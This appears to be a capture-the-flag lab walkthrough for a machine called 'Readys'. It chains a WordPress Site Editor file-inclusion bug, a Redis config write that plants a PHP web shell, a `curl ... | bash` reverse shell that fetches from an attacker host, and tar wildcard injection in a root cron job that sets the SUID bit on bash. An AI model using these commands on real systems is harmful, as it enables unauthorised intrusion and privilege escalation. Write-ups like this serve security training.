





Writeup by wook413

[TOC]

# Recon

## Nmap

As per my standard methodology, I began by performing a comprehensive Nmap scan of all 65,535 TCP ports, followed by a targeted service scan of the open ports and a scan of the top 10 UDP ports.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -Pn -n --open --min-rate 3000 -p-
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-25 04:49 UTC
Nmap scan report for 192.168.175.166
Host is up (0.044s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
6379/tcp open  redis

Nmap done: 1 IP address (1 host up) scanned in 14.06 seconds
```

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -sC -sV -p 22,80,6379                                                                                                  
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-25 04:50 UTC
Stats: 0:00:18 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 99.53% done; ETC: 04:51 (0:00:00 remaining)
Nmap scan report for 192.168.175.166
Host is up (0.045s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 74:ba:20:23:89:92:62:02:9f:e7:3d:3b:83:d4:d9:6c (RSA)
|   256 54:8f:79:55:5a:b0:3a:69:5a:d5:72:39:64:fd:07:4e (ECDSA)
|_  256 7f:5d:10:27:62:ba:75:e9:bc:c8:4f:e2:72:87:d4:e2 (ED25519)
80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Readys &#8211; Just another WordPress site
|_http-generator: WordPress 5.7.2
|_http-server-header: Apache/2.4.38 (Debian)
6379/tcp open  redis   Redis key-value store
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 18.64 seconds
```

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -sU --top-ports 10   
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-25 04:51 UTC
Nmap scan report for 192.168.175.166
Host is up (0.044s latency).

PORT     STATE         SERVICE
53/udp   closed        domain
67/udp   open|filtered dhcps
123/udp  closed        ntp
135/udp  open|filtered msrpc
137/udp  closed        netbios-ns
138/udp  closed        netbios-dgm
161/udp  closed        snmp
445/udp  closed        microsoft-ds
631/udp  closed        ipp
1434/udp closed        ms-sql-m

Nmap done: 1 IP address (1 host up) scanned in 5.01 seconds
```

# Initial Access

## HTTP 80

Upon identifying an active HTTP service on port 80, I ran the Nmap `http-enum` script, which revealed a WordPress installation.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -sV --script=http-enum -p 80        
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-25 04:54 UTC
Nmap scan report for 192.168.175.166
Host is up (0.046s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
| http-enum: 
|   /wp-login.php: Possible admin folder
|   /readme.html: Wordpress version: 2 
|   /: WordPress version: 5.7.2
|   /wp-includes/images/rss.png: Wordpress version 2.2 found.
|   /wp-includes/js/jquery/suggest.js: Wordpress version 2.5 found.
|   /wp-includes/images/blank.gif: Wordpress version 2.6 found.
|   /wp-includes/js/comment-reply.js: Wordpress version 2.7 found.
|   /wp-login.php: Wordpress login page.
|   /wp-admin/upgrade.php: Wordpress login page.
|_  /readme.html: Interesting, a readme.

Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 11.01 seconds
```



I used `wpscan` to enumerate the WordPress site, identifying a plugin named “site-editor.” A search on Searchsploit confirmed that this specific version of the plugin is vulnerable to LFI.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ wpscan --url <http://$IP>                                                                                
_______________________________________________________________
         __          _______   _____
         \\ \\        / /  __ \\ / ____|
          \\ \\  /\\  / /| |__) | (___   ___  __ _ _ __ ®
           \\ \\/  \\/ / |  ___/ \\___ \\ / __|/ _` | '_ \\
            \\  /\\  /  | |     ____) | (__| (_| | | | |
             \\/  \\/   |_|    |_____/ \\___|\\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.28
       Sponsored by Automattic - <https://automattic.com/>
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: <http://192.168.175.166/> [192.168.175.166]
[+] Started: Sun Jan 25 06:37:19 2026

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.38 (Debian)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: <http://192.168.175.166/xmlrpc.php>
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - <http://codex.wordpress.org/XML-RPC_Pingback_API>
 |  - <https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/>
 |  - <https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/>
 |  - <https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/>
 |  - <https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/>

[+] WordPress readme found: <http://192.168.175.166/readme.html>
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: <http://192.168.175.166/wp-content/uploads/>
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: <http://192.168.175.166/wp-cron.php>
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - <https://www.iplocation.net/defend-wordpress-from-ddos>
 |  - <https://github.com/wpscanteam/wpscan/issues/1299>

[+] WordPress version 5.7.2 identified (Insecure, released on 2021-05-12).
 | Found By: Rss Generator (Passive Detection)
 |  - <http://192.168.175.166/index.php/feed/>, <generator><https://wordpress.org/?v=5.7.2></generator>
 |  - <http://192.168.175.166/index.php/comments/feed/>, <generator><https://wordpress.org/?v=5.7.2></generator>

[+] WordPress theme in use: twentytwentyone
 | Location: <http://192.168.175.166/wp-content/themes/twentytwentyone/>
 | Last Updated: 2025-12-03T00:00:00.000Z
 | Readme: <http://192.168.175.166/wp-content/themes/twentytwentyone/readme.txt>
 | [!] The version is out of date, the latest version is 2.7
 | Style URL: <http://192.168.175.166/wp-content/themes/twentytwentyone/style.css?ver=1.3>
 | Style Name: Twenty Twenty-One
 | Style URI: <https://wordpress.org/themes/twentytwentyone/>
 | Description: Twenty Twenty-One is a blank canvas for your ideas and it makes the block editor your best brush. Wi...
 | Author: the WordPress team
 | Author URI: <https://wordpress.org/>
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 1.3 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - <http://192.168.175.166/wp-content/themes/twentytwentyone/style.css?ver=1.3>, Match: 'Version: 1.3'

[+] Enumerating All Plugins (via Passive Methods)
[+] Checking Plugin Versions (via Passive and Aggressive Methods)

[i] Plugin(s) Identified:

[+] site-editor
 | Location: <http://192.168.175.166/wp-content/plugins/site-editor/>
 | Latest Version: 1.1.1 (up to date)
 | Last Updated: 2017-05-02T23:34:00.000Z
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 1.1.1 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - <http://192.168.175.166/wp-content/plugins/site-editor/readme.txt>

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:01 <=============================================> (137 / 137) 100.00% Time: 00:00:01

[i] No Config Backups Found.

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at <https://wpscan.com/register>

[+] Finished: Sun Jan 25 06:37:24 2026
[+] Requests Done: 172
[+] Cached Requests: 5
[+] Data Sent: 44.162 KB
[+] Data Received: 398.557 KB
[+] Memory used: 264.355 MB
[+] Elapsed time: 00:00:05
```

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ searchsploit wordpress site editor
------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                            |  Path
------------------------------------------------------------------------------------------ ---------------------------------
WordPress Plugin Site Editor 1.1.1 - Local File Inclusion                                 | php/webapps/44340.txt
WordPress Plugin User Role Editor 3.12 - Cross-Site Request Forgery                       | php/webapps/25721.txt
------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```

I successfully exploited the LFI to read `/etc/passwd` , confirming the existence of a user named `alice` . However, my attempt to retrieve her private SSH key via the same exploit was unsuccessful.



```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ curl <http://192.168.175.166/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/home/alice/.ssh/id_rsa>    
{"success":false,"message":"Error: didn't load shortcodes pattern file"}
```

## Redis 6379

Shifting focus to Redis, the `info` command initially returned “NOAUTH Authentication required.” While HackTricks notes that Redis often lacks credentials by default, this instance was configured with a password or username + password.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ redis-cli -h $IP
192.168.175.166:6379> info
NOAUTH Authentication required.
```



Leveraging the previously discovered LFI, I accessed `/etc/redis/redis.conf` and grepped for the `requirepass` directive. I found the password and successfully authenticated.

```bash
┌──(kali㉿kali)-[~/Desktop]                    
└─$ curl <http://192.168.175.166/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern>
.php?ajax_path=/etc/redis/redis.conf
```

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ curl <http://192.168.175.166/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/redis/redis.conf> | grep -i requirepass
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0# If the master is password protected (using the "requirepass" configuration
requirepass Ready4Redis?
100 61899    0 61899    0     0   310k      0 --:--:-- --:--:-- --:--:--  311k
```

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ redis-cli -h $IP
192.168.175.166:6379> AUTH Ready4Redis?
OK
```

After successful authentication, I was able to enumerate its version `5.0.14`

```bash
192.168.175.166:6379> info                                    
# Server                                                      
redis_version:5.0.14           
redis_git_sha1:00000000                                       
redis_git_dirty:0                                             
redis_build_id:ddd3b1f304a7d4d5 
redis_mode:standalone                                         
os:Linux 4.19.0-18-amd64 x86_64 
arch_bits:64                   
multiplexing_api:epoll      
atomicvar_api:atomic-builtin   
gcc_version:8.3.0           
process_id:467                
run_id:4a56975799decbe038849a14d1052aab7a364d81               
tcp_port:6379              
uptime_in_seconds:8933        
uptime_in_days:0               
hz:10                      
configured_hz:10              
lru_clock:7717748             
executable:/usr/bin/redis-server                              
config_file:/etc/redis/redis.conf
```

I initially tried the `redis-rogue-server` exploit to obtain an interactive shell, but it failed to execute in this environment.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ git clone <https://github.com/n0b0dyCN/redis-rogue-server.git>
Cloning into 'redis-rogue-server'...
remote: Enumerating objects: 87, done.
remote: Counting objects: 100% (4/4), done.
remote: Compressing objects: 100% (4/4), done.
remote: Total 87 (delta 0), reused 1 (delta 0), pack-reused 83 (from 1)
Receiving objects: 100% (87/87), 245.56 KiB | 2.56 MiB/s, done.
Resolving deltas: 100% (19/19), done.
```

I pivoted to a PHP Web Shell strategy, exploiting a Redis misconfiguration that allows changing the database directory and filename. I set the directory to `/opt/redis-files` , renamed the DB file to `wook.php` , and saved a PHP snippet.

```bash
192.168.223.166:6379> config set dir /opt/redis-files
OK
192.168.223.166:6379> config set dbfilename wook.php
OK
192.168.223.166:6379> set test "<?php phpinfo(); ?>"
OK
192.168.223.166:6379> save
OK
```

After verifying the `phpinfo()` page through the LFI, I updated `wook.php` with a reverse shell payload: `curl <http://192.168.45.236/shell.sh> | bash` . This successfully established a reverse shell as the user `alice` .

```bash
<http://$IP/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/opt/redis->
files/wook.php
```



```bash
192.168.223.166:6379> config set dir /opt/redis-files
OK
192.168.223.166:6379> config set dbfilename wook.php
OK
192.168.223.166:6379> set test '<?php system("curl <http://192.168.45.236/shell.sh> | bash"); ?>'
OK
192.168.223.166:6379> save
OK
```



# Shell as `alice`

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ python3 penelope.py -p 443
[+] Listening for reverse shells on 0.0.0.0:443 →  127.0.0.1 • 192.168.136.128 • 172.17.0.1 • 172.20.0.1 • 192.168.45.236
➤  🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
[+] Got reverse shell from readys~192.168.223.166-Linux-x86_64 😍 Assigned SessionID <1>
[+] Attempting to upgrade shell to PTY...
[+] Shell upgraded successfully using /usr/bin/python3! 💪
[+] Interacting with session [1], Shell Type: PTY, Menu key: F12 
[+] Logging to /home/kali/.penelope/sessions/readys~192.168.223.166-Linux-x86_64/2026_01_25-16_16_54-617.log 📜
────────────────────────────────────────────────────────────────────
alice@readys:/var/www/html/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes$ whoami
alice
alice@readys:/var/www/html/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes$ id
uid=1000(alice) gid=1000(alice) groups=1000(alice)
alice@readys:/var/www/html/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes$ 
```

Found `local.txt`

```bash
alice@readys:/home/alice$ cat local.txt
71c...
```

# Privilege Escalation

Upon gaining initial access, I inspected `wp-config.php` and discovered MySQL credentials. Using these, I accessed the database and dumped the `wp_users` table; however, I was unable to crack the admin user’s password hash.

```bash
// ** MySQL settings - You can get this info from your web host ** //                                    
/** The name of the database for WordPress */                                
define( 'DB_NAME', 'wordpress' );                                                                                               
/** MySQL database username */
define( 'DB_USER', 'karl' );
                                                                    
/** MySQL database password */                                    
define( 'DB_PASSWORD', 'Wordpress1234' );                                                                                           
/** MySQL hostname */                                        
define( 'DB_HOST', 'localhost' );                                                                                         
/** Database Charset to use in creating database tables. */                                  
define( 'DB_CHARSET', 'utf8mb4' );                                                                                                    
/** The Database Collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );

/**#@+
alice@readys:/var/www/html$ mysql -h 127.0.0.1 -u karl -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \\g.
Your MariaDB connection id is 58
Server version: 10.3.31-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\\h' for help. Type '\\c' to clear the current input statement.

MariaDB [(none)]> 
MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| wordpress          |
+--------------------+
2 rows in set (0.000 sec)

use wordpress;
show tables;
MariaDB [wordpress]> select * from wp_users;
+----+------------+------------------------------------+---------------+---------------+------------------+---------------------+---------------------+-------------+--------------+
| ID | user_login | user_pass                          | user_nicename | user_email    | user_url         | user_registered     | user_activation_key | user_status | display_name |
+----+------------+------------------------------------+---------------+---------------+------------------+---------------------+---------------------+-------------+--------------+
|  1 | admin      | $P$Ba5uoSB5xsqZ5GFIbBnOkXA0ahSJnb0 | admin         | test@test.com | <http://localhost> | 2021-07-11 16:35:27 |                     |           0 | admin        |
+----+------------+------------------------------------+---------------+---------------+------------------+---------------------+---------------------+-------------+--------------+
```

```bash
┌──(kali㉿kali)-[~/Desktop/redis-rogue-server]
└─$ echo '$P$Ba5uoSB5xsqZ5GFIbBnOkXA0ahSJnb0' > admin_hash.txt
```

```bash
┌──(kali㉿kali)-[~/Desktop/redis-rogue-server]
└─$ hashcat --identify admin_hash.txt                              
The following hash-mode match the structure of your input hash:

      # | Name                                                       | Category
  ======+============================================================+======================================
    400 | phpass                                                     | Generic KDF
```

While auditing the system deeper, I discovered a suspicious cronjob named backup.sh running as root every 3 minutes. The cronjob was configured as */3 * * * * , which differs from 3 * * * * (the latter only runs at the 3rd minute of every hour).

```bash
╔══════════╣ Check for vulnerable cron jobs
╚ <https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#scheduledcron-jobs>
══╣ Cron jobs list
/usr/bin/crontab
incrontab Not Found
-rw-r--r-- 1 root root      42 Nov 12  2021 /etc/crontab    
                                                                             
/etc/cron.d:
total 16 
drwxr-xr-x  2 root root 4096 Nov 12  2021 .
drwxr-xr-x 76 root root 4096 Nov 17  2021 ..                                                                                             
-rw-r--r--  1 root root  102 Oct 11  2019 .placeholder
-rw-r--r--  1 root root  712 Dec 17  2018 php                                                                                                                                                                                                        
/etc/cron.daily:
total 40
drwxr-xr-x  2 root root 4096 Nov 12  2021 .
drwxr-xr-x 76 root root 4096 Nov 17  2021 ..
-rw-r--r--  1 root root  102 Oct 11  2019 .placeholder
-rwxr-xr-x  1 root root  539 Aug  8  2020 apache2                             
-rwxr-xr-x  1 root root 1478 May 12  2020 apt-compat                          
-rwxr-xr-x  1 root root  355 Dec 29  2017 bsdmainutils                        
-rwxr-xr-x  1 root root 1187 Apr 18  2019 dpkg                                
-rwxr-xr-x  1 root root  377 Aug 28  2018 logrotate                           
-rwxr-xr-x  1 root root 1123 Feb 10  2019 man-db                              
-rwxr-xr-x  1 root root  249 Sep 27  2017 passwd                                                                                                                                                                                        
/etc/cron.hourly:                                                             
total 12        
drwxr-xr-x  2 root root 4096 Oct 20  2020 .
drwxr-xr-x 76 root root 4096 Nov 17  2021 ..               
-rw-r--r--  1 root root  102 Oct 11  2019 .placeholder                                                                                              
/etc/cron.monthly:             
total 12                
drwxr-xr-x  2 root root 4096 Oct 20  2020 .                                   
drwxr-xr-x 76 root root 4096 Nov 17  2021 ..                                  
-rw-r--r--  1 root root  102 Oct 11  2019 .placeholder                        
                                                                              
/etc/cron.weekly:             
total 16                               
drwxr-xr-x  2 root root 4096 Oct 20  2020 .                                   
drwxr-xr-x 76 root root 4096 Nov 17  2021 ..  
-rw-r--r--  1 root root  102 Oct 11  2019 .placeholder
-rwxr-xr-x  1 root root  813 Feb 10  2019 man-db
*/3 * * * * root /usr/local/bin/backup.sh
```

This specific script monitors `/var/www/html` for any changes within the last 3 minutes and, if found, creates a compressed archive named `/opt/backups/website.tar` using a **wildcard (`*`).**

The use of the wildcard in the `tar` command presented a **Wildcard Injection** vulnerability. When the shell expands the `*` , it treats filenames starting with dashes as command-line arguments.

```bash
alice@readys:/etc/cron.weekly$ cat /usr/local/bin/backup.sh
#!/bin/bash

cd /var/www/html
if [ $(find . -type f -mmin -3 | wc -l) -gt 0 ]; then
tar -cf /opt/backups/website.tar *
fi
```

To exploit this, I created two “trigger” files: `--checkpoint=1` and `--checkpoint-action=exec=sh wook.sh` . My payload in `wook.sh` was designed to set the SUID bit on `/bin/bash` .

```bash
alice@readys:/var/www/html$ echo "chmod +s /bin/bash" > wook.sh
alice@readys:/var/www/html$ echo "" > "--checkpoint-action=exec=sh wook.sh"
alice@readys:/var/www/html$ echo "" > --checkpoint=1
```

After waiting for the 3-minute cron cycle, I verified that the SUID bit was successfully set on `/bin/bash` .

```bash
alice@readys:/var/www/html$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1168776 Apr 18  2019 /bin/bash
```

# Shell as `root`

Executing `/bin/bash -p` granted me a shell with full **root** privileges.

```bash
alice@readys:/var/www/html$ /bin/bash -p
bash-5.0# whoami
root
```

Found `proof.txt`

```bash
bash-5.0# ls
proof.txt
bash-5.0# cat proof.txt
2be...
```